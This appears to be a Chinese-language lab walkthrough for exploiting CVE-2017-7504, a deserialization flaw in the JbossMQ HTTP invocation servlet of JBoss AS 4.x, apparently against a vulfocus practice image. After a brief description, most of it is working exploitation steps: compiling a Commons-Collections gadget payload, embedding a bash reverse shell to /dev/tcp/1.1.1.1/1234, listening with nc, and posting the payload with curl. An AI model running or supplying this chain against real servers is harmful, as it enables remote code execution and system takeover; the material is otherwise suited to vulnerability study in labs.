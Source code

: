 # CVE-2017-7504



## 一、漏洞描述

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、影响版本

Red Hat JBoss Application Server <=4.x

## 三、利用流程

1 对应镜像名称为:vulfocus/jboss-cve_2017_7504![](./1.png)

2 利用工具地址：https://github.com/joaomatosf/JavaDeserH2HC

3 编译并生成序列化数据

```bash
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
```

4 设置反弹ip与端口

```
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/1.1.1.1/1234 0>&1"
```

5 服务器监听

```
nc -lvp 1234
```

6 发送数据包

```
curl http://127.0.0.1:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

7 可成功反弹shell